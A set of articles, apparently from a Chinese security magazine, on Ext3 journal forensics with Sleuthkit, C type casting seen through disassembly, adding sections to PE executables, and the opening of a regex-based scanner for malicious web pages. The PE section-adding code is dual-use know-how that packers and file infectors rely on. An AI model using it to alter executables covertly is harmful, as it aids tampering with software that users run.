













```

每个目录或文件都对应有一个目录子项结构，每个目录项所占字节数是不固定的，因目录项结构体中描述目录文件名的字节数不定。读者可以用 WinHex 工具自行试验，定位到一个已删除的文件，查看其对应目录子项结构体中的索引节点号是否发生改变。已知索引节点号如何定位到其对应的索引节点结构，然后查看其索引结构中的 i_block 数据指针是否清空，读者可参考 2009 年第 8 期文章内容。下面我们对 144015 节点号进行分析，结果如图 4 所示。
图 4　利用 Sleuthkit 工具对节点号 144015 的分析结构

由图可知，这是一个可读可写的非目录文件，且 inode 144015 属于第 9 号块组，索引节点指针被清空，且标记为未分配状态。下面我们通过以下命令了解 9 号块组的基本信息，执行后的结果如图 5 所示。
图 5　sda6 分区下第 9 号块组的基本信息

由图可知，9 号块组中包含 160000-144001+1=16000 个索引节点；索引节点表所占块数：295594-295095+1=500，故每个块中共包含的索引节点点个数为 16000/500=32 个；9 号块组的起始索引节点号为 144001，故 144015 节点即为索引节点表所占的首个块的第 15 个子项。因为索引节点表中存放了 inode 节点信息，一般而言，每个 inode 节点占 128 个字节。图中显示索引节点表的首个块号为 295095，故索引节点 144001 的节点结构信息即存放在此块号中（注意：日志工作在块单位下，故我们对日志文件进行读写时，需要定位到分区的块级别）。OK，已经知道了它位于的块号数及其对应的子项号，下面利用 jls 命令查看 sda6img 镜像文件的日志信息，如图 6 所示。
图 6  sda6 分区下的日志文件总体信息

由图可知，日志文件确实记录了此块信息，其中第一列为日志文件块序号，第二列为块号的描述信息。jls 命令主要功能为列举日志文件的记录及单个子项，当给出索引节点号时，可查看此节点对应的日志信息。jls 所带的参数为“-f”、“-o”，其中“-f”指示当前的文件系统类型，而“-o”指示文件系统在指定镜像中的相对偏移。图中结果表明，日志文件的第 9 个块中存放了对文件系统第 9 号块组中索引节点 144015 的操作记录。因为日志文件至少记录了元数据信息，即 i_block 数据块指针内容，默认状态下，Ext3 是采用 Ordered 方式记录日志。当然，在执行 jls 命令查看对应块的日志时，有可能存在多个索引指向指定的块，因为可能此块的操作已经发生了多次，那么此时我们就需要对多个索引日志块进行分析。这里，我们只考虑其存在一个索引的情况。

下面我们就需要借助 TSK 工具提供的强大命令 jcat 来查看日志文件中对应的块内容。当给定一个 inode 地址时，jcat 命令则可以显示日志文件中记录的此节点信息。注意，这里指的 inode 地址并不是系统块地址，而是日志文件中块地址，144015 节点在日志文件中对应的块地址即为 8。执行此命令时，为了不显示多余的字节信息，我们可以指定只显示一个 inode 节点大小内容。当我们不能确定文件系统的 inode 节点结构具体占用多少个字节数时，可借助 grep 命令读出其大小，命令为：“dumpe2fs sda6img.dd | grep -i "inode size"”。已知 inode 节点大小后，即可执行 jcat 命令查看日志文件中对 144015 索引节点的记录情况，如图 7 所示。
图 7  日志文件第 8 号块对应的内容

图中的 jcat 命令带有 3 个参数，参数 1 用于存放日志文件的分区镜像，参数 2 是日志文件中指定的节点块号，参数 3 是日志中的索引项偏移。dd 命令主要用来复制一个指定大小的块，这里指定 bs=128，即复制 128 个字节，并以“xxd”即十六进制形式输出显示。OK，现在我们就在日志文件中重新获取到了索引节点 144015 的 inode 结构删除前的全部拷贝。图中用线框起来的部分即 i_block 指针数组内容，共 15 个地址值，其中前 12 个地址值直接对应文件的数据块号；后 3 个地址值则分别为单间接索引指针、双间接索引指针和三重间接索引指针，更详细的含义就不再介绍了。获取到已删除文件的数据块指针后，只要对这些指针值正确解析，即可定位到文件内容存放的块号，简单调用 fseek、fread 函数即可恢复已删除文件内容。

然而，不幸的事情时有发生，根据前面讲的内容在自己 Linux 系统下做实验，有可能当你输入 jls、jcat 命令时，终端弹出“Cannot determine file system type!”警告。若不依靠这几个强大的命令，显然后面的分析就无从谈起。下面将具体分析如何解决此类问题。

##### 数据恢复中的异常问题分析

无法执行 jls、jcat 命令，主要是此时你的日志文件和实验分区不在同一个分区下，即实验分区下不包含它的日志文件块内容。为了达到这种效果，一般情况下系统管理员需要首先创建一个日志文件分区，然后再指定此分区作为某一个 Ext3 分区的日志文件记录分区。首先执行命令“mke2fs -o journalDev -L journalDev /dev/sda8”创建一个日志分区，journalDev 只是分区的一个别名。然后，需要将 journalDev 指定为某一个特定的分区服务。执行命令“mke2fs -J device=/dev/sda8 -L ext3external /dev/sda7”。在配置上面的环境时，需要指定 sda7 和 sda8 的块大小相同。

对于取证分析员而言，事先不一定能够确认系统中的分区状态，即分区中的哪个分区是日志文件分区，哪个为原始分区。此时，我们可以借助 TSK 工具中的 fsstat 命令查看每个分区的基本属性内容，或者使用 dumpe2fs 命令查看。在终端下分别执行命令“dumpe2fs sda8img.dd”和“dumpe2fs sda7img.dd”查看它们的输出信息。输出结果中若 sda8img.dd 文件中 Filesystem UUID 与 sda7img.dd 对应的 Journal UUID 一致，则表明 sda8 为 sda7 的日志文件记录分区。

前面简要涉及了日志结构，除了 superblock 块外还存在四个部分，分别为 Descriptor、Commit、Revoke 和 Metadata block。其中前四个部分为日志文件数据的管理块，用来指定日志块大小、日志起始于哪个块等；Metadata block 则存放了日志数据，但其存储位置与存储方式依赖于前面四个管理结构。此时，我们需要详细地……

分析四个管理结构，才能对日志文件的元数据结构进行分析。如日志文件数据结构的头部字节就存在一个标识数据块类型字段，其中 superblock 存在两种类型：一种类型只记录元数据的更新，而另一类型则记录所有数据的更新。具体内容这里就不再介绍了，读者想深入研究可参考 Carrier 的专著《File System Forensic Analysis》中的 “Ext2 and Ext3 Data Structures” 章节的详细分析。

本文介绍了一种基于 Ext3 日志文件系统的数据恢复技术，借助 Sleuthkit 工具对日志文件进行分析，准确提取日志文件中对元数据结构的记录。因为每次文件删除后，系统在默认状态下都会采用 Ordered 记录方式将元数据的变化记录在日志中。

故借助 Sleuthkit 即可有效获取任意删除文件的元数据内容，即 i_block 指针地址值。故只要文件数据块内容未被覆盖，同样可以再现文件数据内容。系统取证中的数据恢复技术一直是人们关心的话题，需要更多的读者去研究分析。当前取证技术面临巨大的压力，如各种针对取证研制出来的反取证 Rootkits 对取证制造了很大麻烦，故需要更多热爱取证技术的人参与并进行共同探讨。最后欢迎大家在黑防论坛探讨取证话题。
前置知识：VC  
关键词：编程、类型转换

##### 强制类型转换之谜

文 / woosheep
系统编程的时候，总是免不了要用到强制类型转换。然而，这一项几乎所有现代编译器都实现了的技术，不但不容易理解，而且很容易出错。一般教材上都会强调强制类型转换可能会导致数据丢失。如果是所占字节较少的类型，例如 BYTE，向所占字节较大的类型，例如 DWORD 转换，一般还没什么问题。但是反过来，所占字节较大的类型向所占字节较少的类型转换，就可能出现错误数据。请看以下程序：

要是说通过“DWORD c=(DWORD)b;”得到 c=0x34 合情合理，而通过“BYTE b=(BYTE)a;”使得 b 的值为 a 的最低两位也可以通过死记硬背勉强接受的话，通过“DWORD d=*(DWORD *)&b”得到 d=0x12f734 则无论如何也想象不出来。

可能有些朋友没见过“*(DWORD *)”这种形式，其实这是一种通过指针间接转换类型的方法。按语法解释，它首先通过“&”操作符获取一个变量的地址，然后将待转换类型的指针指向这个地址，最后这个指针的值就是类型转换的结果了。需要特别注意的是，“(DWORD *)”之后必须接一个有效的内存地址，否则程序会崩溃。

```c
#include <Windows.h>
#include <stdio.h>
main()
{
    DWORD a = 0x1234;
    BYTE b = (BYTE)a;
    DWORD c = (DWORD)b;
    DWORD d = *(DWORD *)&b;
    printf("%x\n", a);
    printf("%x\n", b);
    printf("%x\n", c);
    printf("%x\n", d);
}
```

这段程序的运行结果为：

```text
1234
34
34
12f734
```

从语法上看，最后两种强制转换的方法应该是等效的，然而事实并非如此。没有一本教科书能解释为什么强制类型转换后会得到这种结果，这对于痛恨背诵教条的 Cracker 绝对是一种煎熬，于是反汇编工具自然成了解开这个谜的最终选择。用默认模式编译以上代码，拖进 IDA 中，以下是这段代码的部分反汇编结果：

```asm
mov     [ebp+var_a], 1234h
mov     al, byte ptr [ebp+var_a]
mov     byte ptr [ebp+var_b], al
mov     ecx, [ebp+var_b]
and     ecx, 0FFh
mov     [ebp+var_d], ecx
mov     edx, [ebp+var_b]
mov     [ebp+var_d], edx
```

原来所谓强制类型转换，是通过把内存数据按转换后的数据类型保存到对应的寄存器中，最后再赋值给相应内存。之所以利用寄存器中转，是因为内存之间无法直接互换数据的缘故（汇编程序设计常强调的一点）。而所谓的对应寄存器，从以上反汇编结果可以看出，编译器在识别完数据类型后，自动给出固定类型的寄存器进行中转。经过试验，总结如下（此处以利用 ecx 寄存器中转的强制转换为例）：

```text
DWORD 类型，大小为 32 位，对应 EAX
WORD 类型，大小为 16 位，对应 AX
BYTE 类型，大小为 8 位，对应 AL
```

其实也就是要求中转的寄存器满足从低位到高位、大小相同的原则，但这样就会出现一个问题。例如在“DWORD d = *(DWORD *)&b”这一步，编译结果为：

```asm
mov edx, [ebp+var_b]
mov [ebp+var_d], edx
```

[ebp+var_b] 的大小为 32 位，稍微往前看一下就可以知道，其实际有效值是在执行完 “mov byte ptr [ebp+var_b], al” 后获得的。也就是说，只有最低的 8 位才是有效数据。而现在 32 位的值直接就赋值给了变量 d。不难推测，要保证 d 为预想的值，必须保证执行 “mov byte ptr [ebp+var_b]” 之前，[ebp+var_b] 为 0。

这是在赌运气。当然，不为 0 的时候总是占大多数，于是 d 的值就变成了那个怪异的 12f734。

当然，如果坚持要使用“DWORD d = *(DWORD *)&b”这种方法进行类型转换，也是有计可施的，只要提前把 b 所在地址的值清 0。简单地用“b=0”是没有作用的，这样只会把最低的 8 位清 0；要实现这一效果，需要借助“*(DWORD *)&b = 0”才行。需要强调的是，此时“*(DWORD *)&”无法用“(DWORD)”代替，因为 (DWORD) 只能用在“=”的右边。

但还有一个问题：如果我们的原计划是让 d 的值等于 a，又该怎么处理呢？答案是没办法。一本讲强制类型转换的书会含糊其辞地说，强制转换会自动扩充所占位数。于是我一度以为 b 所指向地址的值是等于 a 的，但从上面的反汇编结果可知事实并非如此：不但 b 所指向地址的值不等于 a，甚至连作为中转的寄存器 eax 的值也不等于 c。因此，解决办法只能将 b 的类型变为 BYTE 类型的指针。修改后的主要代码如下：

```c
DWORD a=0x1234;
BYTE *b;
b=(BYTE *)&a;
DWORD c=(DWORD)*b;
DWORD d=*(DWORD*)b;

printf("%x\n",a);
printf("%x\n",*b);
printf("%x\n",c);
printf("%x\n",d);
```

运行结果为：

```text
1234
34
34
1234






```

现在，d 如愿以偿等于了 a。至于 c 仍然等于 0x34 是毋庸置疑的，因为前面的 12 已经在执行 “and ecx,0FFh” 时变为 0 了。以上这些，就是强制类型转换的密码所在了。

前置知识：VC  
关键词：编程、PE 文件、节表添加

##### 添加 Section 全攻略补遗
文/图 woosheep

常言道“挂一漏万”，此言非虚。拿到 2009 年第 12 期杂志，习惯性地重审自己写的《添加 Section 全攻略》，越看越觉得还有许多东西没讲清、没讲透，而发稿之后也有一些新的心得，于是就集结成一篇，算是补遗吧。

###### 清空 IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT

如果用原文给出的代码为 Windows XP 的记事本（VC 7 编译）添加区段，会导致不能运行。很多加 Section 工具和壳都会出现这一问题——如果针对旧版本的记事本（VC 6 编译）添加 Section，则不存在这一问题。

难道 VC 7 的编译器采用了什么新技术，制造了不可逾越的技术障碍？经过排查，发现 Windows XP 的记事本里有这么一段数据，如图 1 所示。
看过上一篇文章的应该很容易看出，上半部包含“.text”等字段数据，是节表头。那么，下面这些“comdlg32.dll”之类看似动态链接库名的字符串是什么，又起着怎样的作用呢？

在 NT 头中，有一条名为 IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT 的项目，通常译为绑定输入表。操作系统在加载 PE 文件时，需要预先检查输入表，以便取得运行该 PE 文件所必需的动态链接库名称，这种检测是相当低效的。为了提高效率，于是就提出了绑定输入表的概念，直接把 PE 文件需要加载的动态链接库填好，这样操作系统就可以直接获取所需信息了。

VC 7 的编译器就采用了这项技术，而这些看似动态链接库名的字符串，正是绑定输入表。根据我们原来的假设，在最后一个节表头到第一个节表之间，不应该存在有效数据，否则添加新的节表头信息会覆盖原有数据，肯定会影响程序正常运行——这也是造成 Windows XP 记事本无法运行的原因。

要解决这个问题，有治标和治本两种办法。治本的方法自然是首先判断是否存在绑定输入表，然后找到绑定输入表的位置，最后把它移动到其他地方，同时修改偏移量。考虑到这个操作比较麻烦，而且现代 PC 的硬件环境日新月异，几乎可以忽略加载动态链接库的开销，所以我采用了治标的办法：清空 IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT。

原理很简单。由于老的编译器生成的 PE 文件几乎都没采用这项技术，为了兼容，操作系统在读取绑定输入表前，会读取 NT 头的一个字段，来判断是否存在绑定输入表。因此，所谓清空绑定输入表，只需要将 IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT 的 VirtualAddress 成员置 0。IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT 有两个成员：VirtualAddress 和 Size。很多人认为必须两个同时为 0 才算清空 IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT，但经我试验，其实只需下面一条语句便可实现效果：

```c
ntHead.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].VirtualAddress = 0;
```

###### 计算 IMAGE_SECTION_HEADER

前文在写关于 IMAGE_SECTION_HEADER 的计算时，给出的偏移量计算公式为 VirtualAddress + SizeOfRawData。由于是逆向观察的结果，虽然不能说错，但总有点不伦不类。后来经过文档阅读以及实验，现给出准确的计算方法。

正如原文所说，填写一个新的 IMAGE_SECTION_HEADER，需要关注四个项目：PointerToRawData、SizeOfRawData、VirtualAddress 和 VirtualSize。四者之间的关系其实很简单：含有 RawData 字段的，指示的是硬盘中的属性；含有 Virtual 字段的，指示的则是内存中的属性。

这样就很容易理解了：我们新加的 Section 有多大，VirtualSize 就填多大。事实上填为 0 也不要紧，因为操作系统载入 PE 文件，真正用以确定 PE 在内存中大小的是 SizeOfRawData。而 SizeOfRawData 不能按实际值是多少就填多少，因为它必须是按 FileAlignment 对齐后的结果。抛开这些绕舌的定义，其实就是说，SizeOfRawData 的值必须是 FileAlignment 的整数倍：

```c
for (i = 1;; i++)
{
    if ((i * ntHead.OptionalHeader.FileAlignment) >= SizeOfSection)
    {
        newSH.SizeOfRawData = i * ntHead.OptionalHeader.FileAlignment;
        break;
    }
}
```

SizeOfSection 就是新加 Section 的大小。用这段代码就可以准确计算 SizeOfRawData。其实 VirtualSize 也是有对应对齐颗粒的，名称为 SectionAlignment。

至于 PointerToRawData 和 VirtualAddress，只需要将前一个 Section 的 PointerToRawData 和 VirtualAddress，分别加上前一个 Section 的 SizeOfRawData 和 VirtualSize 即可。

至于 VirtualAddress + SizeOfRawData 之所以能成立，是因为一些编译器（例如 VC6）编译的 PE 文件，文件偏移和内存偏移通常是一致的，但暂时没发现可靠规律，有兴趣的朋友可以留心观察。

借此插一句，找到一种填写 Section 名称的改进方法：由于 Section 名是 UCHAR 指针类型，而 strcpy 则要求参数都为 char 指针类型，因此用指针进行一下转换即可：`strcpy((char *)(pNewSecHead->Name), pSecName);`。

###### 内存方式添加 Section

前文介绍了直接以修改文件的方式添加 Section。作为对比，在本篇最后附上内存方式添加 Section。想将代码运用到壳里的朋友就请特别注意了，因为以内存方式添加 Section，对于后续进行跳转之类需要计算偏移量的工作，方便很多。

以内存方式添加 Section，需要两个步骤：载入和 Dump 出。载入就是把 PE 文件读取到内存中。最容易想到的是申请一个和原 PE 文件同样大小的内存空间，然后用 ReadFile 直接读入。这种方法实现简单，但本质只能算是在内存中进行文件操作，换汤不换药。纯正的做法应该是模拟操作系统载入 PE 的动作。

听起来很吓人，其实有了前面的基础，实现起来也很容易。PE 文件在内存里与在硬盘中存在差异的地方，正是节表头分别用 RawData 字段与 Virtual 字段标示的地方。只需把每个 Section 的 SizeOfRawData 大小的数据读入 VirtualAddress 指定的偏移处，即可实现载入。关键代码如下：

```c
for(i=0, pSecHead=(IMAGE_SECTION_HEADER*)((DWORD)pNTHead+sizeof(IMAGE_NT_HEADERS)); i<ntHead.FileHeader.NumberOfSections; i++, pSecHead++) {
    SetFilePointer(hFile, pSecHead->PointerToRawData, NULL, FILE_BEGIN);
    ReadFile(hFile, (LPVOID)((DWORD)pBase+pSecHead->VirtualAddress), pSecHead->SizeOfRawData, &dwBytesRead, NULL);
}
```

其中 pBase 是 VirtualAlloc 申请的一段内存的起始地址。通过 PointerToRawData 定位数据在文件中的位置，然后通过 `pBase + pSecHead->VirtualAddress` 定位到其对应在内存中的位置，读取 `pSecHead->SizeOfRawData` 大小的数据即可。

可能有朋友会有异议：既然是内存，为什么不是 VirtualSize？正如前面所说，VirtualSize 其实设置为 0 也没问题。因为只有当 Section 数据实际大小正好为 FileAlignment 的整数倍时，其大小才会等于 SizeOfRawData 的值，其他情况下都是小于。因此，读取 SizeOfRawData 大小的数据，能保证读完所有有效数据。

当然，实际中可能会出现 VirtualSize 大于 SizeOfRawData 的情况，这并无所谓，因为超出部分都是无效数据，操作系统会默认用 0 来填充多出来的部分。

同理，Dump 只不过是将载入步骤做逆向操作。关键代码如下：

```c
for(int i=0; i<pNTHeader->FileHeader.NumberOfSections; i++, pSecHeader++) {
    memcpy((LPVOID)((DWORD)pDumpBuf+pSecHeader->PointerToRawData),
           (LPVOID)((DWORD)pImageBase+pSecHeader->VirtualAddress),
           pSecHeader->SizeOfRawData);
}

pSecHeader--; // 退回到最后一个 Section
HANDLE hDumpFile=CreateFile(pNewFileName, GENERIC_WRITE, FILE_SHARE_WRITE, NULL,
                            CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
WriteFile(hDumpFile, pDumpBuf,
          pSecHeader->PointerToRawData + pSecHeader->SizeOfRawData,
          &dwBytesRead, NULL);
CloseHandle(hDumpFile);
```

pDumpBuf 是申请的一个足够大的缓冲，用来保存按文件方式布局的 PE 文件。按 Section 依次从该 Section 的 VirtualAddress 指向内存空间读取 SizeOfRawData 大小的数据，保存入缓冲中 PointerToRawData 指向的地方。请注意，VirtualAddress 与 PointerToRawData 都是偏移量，需加上基址才是实际的内存地址。最后用 WriteFile 来生成加了 Section 后的 PE 文件。

可以看出，生成文件的大小这里是由最后一个 Section 的文件偏移（PointerToRawData）加上该 Section 的大小来确定的。一般情况下可以直接使用，但遇到有附加数据的 PE 文件，则需要记得额外确定附加数据的大小，并从原文件复制到新文件末尾。

上述代码并未提及文件头该如何复制，其实非常简单：只需要确定大小，然后就可以从头开始复制。而它们的大小，根据前一篇的分析，就是 DOS 头、NT 头、所有节表的大小，再加上 DOS 头到 NT 头之间一段 DOS 程序的大小总和。

```c
DosHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) +
NTHeader->FileHeader.NumberOfSections * sizeof(IMAGE_SECTION_HEADER)


```

其他技术细节，上一篇文章已经讲清楚了，这里不再赘述。我想，综合两篇文章，大家应该都能写出一个兼容性良好的 Section 添加工具来。

前置知识：VC

关键字：编程、GRETA、正则表达式

##### 使用 GRETA 正则表达式扫描网马
文/图　键盘上的眼泪

杀毒软件扫描病毒的时候使用的是特征码匹配，而在扫描网马的时候，同样也可以使用特征码匹配。本文我们就使用正则表达式来扫描网马。

###### 什么是正则表达式？

正则表达式是用于描述某些规则的表达式，说白了就是字符串匹配。目前有很多正则表达式库，比如 ATL、Boost、GRETA 等，本文使用的是 GRETA 库，它是微软研究院推出的一个正则表达式模板类库，包含 C++ 对象和函数，使字符串的模式匹配和替换变得很容易。

###### 获取网页代码

网马是一个网页文件，首先我们要得到这个网页文件的全部代码，可以使用 VC 的 CInternetSession 类来实现，这个类在 afxinet.h 头文件里，所以要声明这个头文件。具体实现代码如下：

```cpp
void CMyDlg::OnButton1()
{
    // TODO: Add your control notification handler code here
    UpdateData(TRUE);
    if (m_url.IsEmpty()) {
        AfxMessageBox("网页地址不能为空");
        return;
    }
    CInternetSession session("HttpClient");
    CHttpFile* pfile = (CHttpFile*)session.OpenURL(m_url);
    DWORD dwStatusCode;
    pfile->QueryInfoStatusCode(dwStatusCode);
    if (dwStatusCode == HTTP_STATUS_OK) {
        CString content;
        CString data;
        while (pfile->ReadString(data)) {
            content += data;
        }
        content.TrimRight();
        AfxMessageBox(content);
    }
    pfile->Close();
    delete pfile;
    session.Close();
}
```

编译好之后，输入 http://www.hacker.com.cn，如图1所示，单击“获取”，就会弹出一个对话框，里面就是黑防首页的网页代码。

###### 用正则表达式匹配特征码

